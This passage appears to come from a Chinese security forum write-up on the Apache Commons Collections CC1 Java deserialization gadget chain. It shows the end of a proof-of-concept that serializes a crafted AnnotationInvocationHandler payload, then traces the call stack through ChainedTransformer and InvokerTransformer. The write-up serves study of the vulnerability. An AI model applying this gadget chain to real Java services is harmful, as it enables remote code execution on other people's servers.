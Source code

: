 ```java
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        //取消构造函数修饰符限制
        ctor.setAccessible(true);
        //获取AnnotationInvocationHandler类实例
        Object instance = ctor.newInstance(Target.class, outerMap);

        //payload序列化写入文件，模拟网络传输
        FileOutputStream f = new FileOutputStream("payload.bin");
        ObjectOutputStream fout = new ObjectOutputStream(f);
        fout.writeObject(instance);

        //2.服务端读取文件，反序列化，模拟网络传输
        FileInputStream fi = new FileInputStream("payload.bin");
        ObjectInputStream fin = new ObjectInputStream(fi);
        //服务端反序列化
        fin.readObject();
    }

}
```

调用栈

[![RDx3CR.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6af74b212d605be761c661e7ba143cc16c7db3ce.png)](https://imgtu.com/i/RDx3CR)

`org.apache.commons.collections.map.AbstractInputCheckedMapDecorator#setValue`

首先进入的是`setValue()`方法，调用了`checkSetValue()`

[![RDxQUJ.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2f003a608168ca056606c41959df8c7e5b845f92.png)](https://imgtu.com/i/RDxQUJ)

`org.apache.commons.collections.map.TransformedMap#checkSetValue`

`this.valueTransformer`等于`ChainedTransformer`类，调用了`ChainedTransformer`类中的`transform`方法

[![RDx881.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4c97ff9108079febec06e5a179b283668f75a33f.png)](https://imgtu.com/i/RDx881)

`org.apache.commons.collections.functors.ChainedTransformer#transform`

[![RDxl59.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-05067e96ff2bb8ae754b14559e8138f0beec9c55.png)](https://imgtu.com/i/RDxl59)

根据`this.iTransformers`数组的值可以知道，第一次进入的是`ConstantTransformer`类的`transform`方法，后三次进入的是`InvokerTransformer`类的`transform`。`transform`的返回值会作为下个`transform`函数的参数，然后继续执行

[![RDxdVe.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-87669bc29c18bbce72f8c43f3d5e57c12ed7e0a4.png)](https://imgtu.com/i/RDxdVe)

看一下`ChainedTransformer`的构造函数，可以发现`this.iTransformers`可控

[![RDxo2q.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-646db05311199665dab8d963efd1bd9ba53b1cc9.png)](https://imgtu.com/i/RDxo2q)

`org.apache.commons.collections.functors.ChainedTransformer#ConstantTransformer`
